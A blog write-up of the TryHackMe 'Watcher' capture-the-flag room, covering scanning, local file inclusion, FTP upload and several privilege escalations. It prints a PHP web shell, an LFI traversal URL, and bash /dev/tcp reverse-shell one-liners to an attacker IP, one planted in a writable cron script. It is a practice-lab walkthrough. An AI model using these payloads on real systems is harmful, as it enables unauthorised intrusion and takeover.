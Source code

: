```yaml
---
title: Watcher | Tryhackme write up
date: 2022-05-13 18:30:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, penetration, testing, hacking, ethical, sudo privesc, fuzzing, enumeration, local, file, inclusion, LFI, cron job,watcher, medium]
comments: false

---
```


Hi! this is my take on Watcher CTF from TryHackme, the room is simple but very entertaining.
At first it seemed that it was going to be too easy but I liked that there were several privilege escalations and all of them were different.

These are some topic you will see in this room: 
- Directory fuzzing
- Local file inclusion
- Upload malicious file
- Abuse of sudo permissions for privilege escalation
- Abuse of cron job for privilege escalation

Room link: [Watcher room Tryhackme](https://tryhackme.com/room/watcher)

# Scanning

To know what os I'm facing i start by running **ping -c 1 <VICTIMIP>**, thanks to the TTL i can guess that this is a Linux box.
I continue by running **Nmap** three times,I am using Syn scan against the whole port range of the victim machine,
which shows me that there are three open ports, 21, 22 and 80.

![First Nmap scan for open ports](/assets/img/watcher/001.PNG)
_Nmap scanning for open ports_

Knowing this I re-launch it with the C and V scripts to find out version and service.

![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_
And finally with the **http-enum** script, which uses a small dictionary to fuzz well known routes. 

![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_

![Http-enum results](/assets/img/watcher/003.PNG)
_http-enum script results_

There's nothing weird and the discovery of robots.txt its interesting so I'm checking the web and robots.txt now.

![Website homepage](/assets/img/watcher/004.PNG)
_Website homepage_

The web is running with Apache and seems like a Jekyll blog, some buttons are not even working so I'm going straight to robots.txt.

![robots.txt contents](/assets/img/watcher/005.PNG)
_robots.txt contents_
There are 2 file routes inside robots.txt the first one is accessible and it's the first flag, the second one requires permissions that i dont have.

![First flag](/assets/img/watcher/006.PNG)
_First flag_

Looking again at the home page, I see something suspicious in the links of each post, it seems that the web could be vulnerable to LFI(Local File Inclusion)

![Web could be vulnerable to LF](/assets/img/watcher/007.PNG)
_Vulnerable to LFI?_

I'm trying to list /etc/passwd and for that i'm using this route: http://VICTIMIP/post.php?post=../../../../../../etc/passwd. It works!

![/etc/passwd content](/assets/img/watcher/008.PNG)
_Content of /etc/passwd_

I can see that there's three users: **toby, mat and will**.

# Gaining access

I start by showing **/secret_file_do_not_read.txt**, the file i couldn't read before because I had no permissions.
But now with LFI it's easy to see it's contents:

![/secret_file_do_not_read.txt contents](/assets/img/watcher/009.PNG)
_/secret_file_do_not_read.txt contents_

Reading this, I already know what i have to do, i have to login into ftp and try upload a malicious .php file because now i know
where there route to that file is.

The credentials were valid, and now I'm login into ftp, where the **second flag** is located, and a **files** directory next to it.

![Ftp contents](/assets/img/watcher/010.PNG)
_Ftp contents_

I'm next writing my malicious file and uploading it into this files folder.
This is the code I'm using:
```php
<?php
system($_GET['cmd']) 
?>
```
This code permits us to run a command with the GET request variable 'cmd'.
The upload is completed, and i know where the file exactly is.
I show the file with the LFI i used before, running **whoami** with our new cmd variable.

![Remote code execution working](/assets/img/watcher/011.PNG)
_Remote code execution working_

To get a reverse shell, im gonna run this with my new RCE method, and I'm url encoding it:
```bash
bash -c 'bash -i >& /dev/tcp/MYIP/443 0>%1'
```
At the same time I'm listening port 443 with netcat.
```bash
nc -lnvp 443
```
With this i gained access as www-data

![Access gained as www-data](/assets/img/watcher/012.PNG)

_Access gained as www-data_

# Privilege escalation

## First privilege escalation

After treating the terminal to turn it into an interactive one, I run **sudo -l** and see that i can run any command i want as toby without password,
so i run **sudo -u toby bash** and I'm now toby.

![privesc toby](/assets/img/watcher/013.PNG)
_Easy privesc to toby_

## Second privilege escalation

I continue by visiting toby's home and there's a note next to flag 3 and a directory called jobs. This is the content of note.txt

![note.txt content](/assets/img/watcher/014.PNG)
_note.txt content_

There's a cron job running and i guess it's running into jobs directory. There's a file inside jobs directory called **cow.sh**,
it's a script that backups an image into /tmp directory, but i have write permissions, so i change it's contents to this:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/MYIP/444 0>%1'
```
I'm using port 444 now as I'm still using 443 for the reverse shell I'm actually using. After listening with netcat and waiting a minute, I get a reverse shell as Mat.

![privesc mat](/assets/img/watcher/015.PNG)
_Privesc to Mat_

## Second privilege escalation

As before, the first two things i do is **sudo -l** and visiting my home. I can run python3 with a specific file as will and that file is inside my home.

v![sudo mat](/assets/img/watcher/016.PNG)
_Sudo for mat_

The code of this will_script let's me run three commands, ls, id and cat /etc/passwd, and it does it by calling a function from another script cmd.py.
But I'm realizing that I'm the owner of cmd.py and i can write inside.

![Code permissions](/assets/img/watcher/017.PNG)
_Code of both scripts and permissions_

I'm editing cmd.py code to run a bash instead ls -lah when using 1 as argument, and because i can run it as will, this bash will be as will too.

![new cmd.py](/assets/img/watcher/018.PNG)
_New cmd.py code_
And it works.

![privesc will](/assets/img/watcher/019.PNG)
_Privilege escalation to will_

## Last privilege escalation to root
I struggled a bit with this privilege escalation because I lost like 15min investigating around **adm** group and checking log files from /var/log,
but after a bit i realized that there's nothing there and after cheking some things like sudo -l, SUID files, I found a backups directory inside /opt.
There's a file named key.b64 inside, I'm decoding the content with base 64 and a private key is showing.

![Private ssh key found](/assets/img/watcher/020.PNG)
_Private ssh key found_

After putting the key into an id_rsa file and using it like this from my terminal: **ssh -id id_rsa root@VICTIMIP**

![Access as root](/assets/img/watcher/021.PNG)
_Access as root_

I got access as root!. Flags 4,5,6 and 7 was in /home/toby, /home/mat, /home/will and /root directories respectively, while flag 3 was in /var/www/html/

See you soon and enjoy this nice CTF!
